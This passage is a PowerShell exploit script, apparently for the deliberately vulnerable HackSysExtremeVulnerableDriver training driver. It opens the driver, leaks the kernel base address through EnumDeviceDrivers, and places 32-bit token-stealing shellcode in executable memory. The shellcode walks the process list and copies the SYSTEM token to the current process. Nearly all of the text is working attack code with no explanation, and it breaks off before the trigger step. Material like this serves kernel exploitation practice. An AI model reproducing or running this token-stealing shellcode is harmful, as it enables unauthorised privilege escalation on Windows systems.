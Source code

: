 ```
`}`
"@

Function LeakBaseAddress()`{`
    $dwByte = 0
    $status=[bool] [EVD2]::EnumDeviceDrivers(0, 0, [ref]$dwByte)
    if(!$status)`{`
        echo $("[*] Unable to enum device.... with error 0x`{`0:x`}``n" -f [EVD2]::GetLastError())
    `}`
    $ptrAddress = [Uint32[]](9)*0x1000
    $status=[bool] [EVD2]::EnumDeviceDrivers([UInt32[]]$ptrAddress, $dwByte+10, [ref]$dwByte)
    # echo $("Address is `{`0:x`}`" -f $ptrAddress[0])
    return $ptrAddress[0]
`}`

$hDevice = [EVD2]::CreateFile("\\.\HackSysExtremeVulnerableDriver", [System.IO.FileAccess]::ReadWrite,[System.IO.FileShare]::ReadWrite, [System.IntPtr]::Zero, 0x3, 0x40000080, [System.IntPtr]::Zero)

if($hDevice -eq -1)`{`
    echo "`n[*] Unbale to open this driver...`n"
    Return
`}`

echo "`[+] The Device object is $($hDevice) "
# then we need create an array with buffer
[Int32]$dwSize = 0x820
# +0x4+0x8+0x4+0x4
# alloc buffer for shellcode
$Shellcode = [Byte[]] @(
    #---[Setup]
    0x53,                                       # push    ebx
    0x56,                                       # push    esi
    0x57,                                       # push    edi
    0x60,                                       # pushad
    0x33, 0xC0,                                 # xor eax, eax
    0x64, 0x8B, 0x80, 0x24, 0x01, 0x00, 0x00,   # mov eax, fs:[KTHREAD_OFFSET]
    0x8B, 0x80, 0x80, 0x00, 0x00, 0x00,         # mov eax, [eax + EPROCESS_OFFSET]
    0x8B, 0xC8,                                 # mov ecx, eax (Current _EPROCESS structure)
    # 0x8B, 0x98, 0xF8, 0x00, 0x00, 0x00, # mov ebx, [eax + TOKEN_OFFSET]
    #---[Copy System PID token]
    0xBA, 0x04, 0x00, 0x00, 0x00,       # mov edx, 4 (SYSTEM PID)
    0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, # mov eax, [eax + FLINK_OFFSET] &lt;-|
    0x2D, 0xB8, 0x00, 0x00, 0x00,       # sub eax, FLINK_OFFSET           |
    0x39, 0x90, 0xB4, 0x00, 0x00, 0x00, # cmp [eax + PID_OFFSET], edx     |
    0x75, 0xED,                         # jnz                           -&gt;|
    0x8B, 0x90, 0xFC, 0x00, 0x00, 0x00, # mov edx, [eax + TOKEN_OFFSET]
    0x89, 0x91, 0xFC, 0x00, 0x00, 0x00, # mov [ecx + TOKEN_OFFSET], edx
    #---[Recover]
    0x61,                               # popad
    0x33, 0xC0,                         # NTSTATUS -&gt; STATUS_SUCCESS :p
    0x83, 0xc4, 0x1c,                   # add esp, 1ch
    0x5D,                               # pop ebp
    0xC2, 0x08, 0x00                    # ret 8
)

[IntPtr]$Pointer = [EVD2]::VirtualAlloc([System.IntPtr]::Zero, $Shellcode.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($Shellcode, 0, $Pointer, $Shellcode.Length)
$EIP = [System.BitConverter]::GetBytes($Pointer.ToInt32())
echo "[+] Payload size: $($Shellcode.Length)"
echo "[+] Payload address: $("`{`0:X8`}`" -f $Pointer.ToInt32())"

$leakAddress = LeakBaseAddress
echo $("Address is `{`0:x`}`" -f $leakAddress)
```